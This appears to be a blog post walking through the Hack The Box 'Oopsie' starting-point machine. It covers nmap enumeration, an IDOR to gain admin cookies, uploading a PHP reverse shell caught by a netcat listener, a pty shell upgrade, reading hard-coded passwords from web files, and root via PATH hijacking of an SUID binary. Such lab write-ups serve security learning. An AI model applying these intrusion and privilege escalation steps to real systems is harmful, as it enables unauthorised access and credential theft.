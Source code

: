 ```yaml
---
layout: post
title: 'HTB | Oopsie'
permalink: /ctf/htb/starting-point/oopsie/
---
```


# Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can crawl the page with **ZAP**, we will find a login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

---

# Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight bash %}
> gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight bash %}
> sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight bash %}
> cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight bash %}
> python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

---

# Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight bash %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight bash %}
robert@oopsie:/$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
{% endhighlight %}

We can see that **bugtracker** is using cat. If we create a file name **cat** inside **/tmp**, replace the content by **/bin/sh** and change the PATH to **/tmp** and execute bugtracker, we get a shell with root.

##### I need to remove the file cat after getting access to root, so I can make a cat to the flags.